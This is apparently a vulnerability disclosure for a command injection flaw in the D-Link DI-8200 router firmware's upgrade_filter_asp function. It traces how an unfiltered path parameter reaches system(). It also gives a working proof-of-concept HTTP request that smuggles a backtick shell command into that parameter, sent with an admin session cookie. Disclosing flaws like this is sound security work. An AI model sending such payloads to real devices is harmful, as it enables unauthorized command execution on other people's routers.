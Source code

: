 Firmware version:

DI_8200-16.07.26A1
	
Download address:

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200)

Command injection:

The upgrade_filter_asp function has command injection；
The received request is sent to parm; And parm doesn't do any filtering;
parm data is sent to v17 through strcpy, and then only "http://" is matched without any filtering；
Splice to v16 through sprintf, and finally system(v16); Cause command injection;
![[Pasted image 20240806103832.png]]
Here is the FirmAE simulated firmware command injection process:
![[Pasted image 20240806104833.png]]
![[Pasted image 20240806104945.png]]

poc：

```
GET /upgrade_filter.asp?path=http://`ps%20%3E%20/rce.txt` HTTP/1.1

Host: 192.168.0.1

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh,en-US;q=0.9,en;q=0.8

Cookie: wys_userid=admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86

Connection: close


```
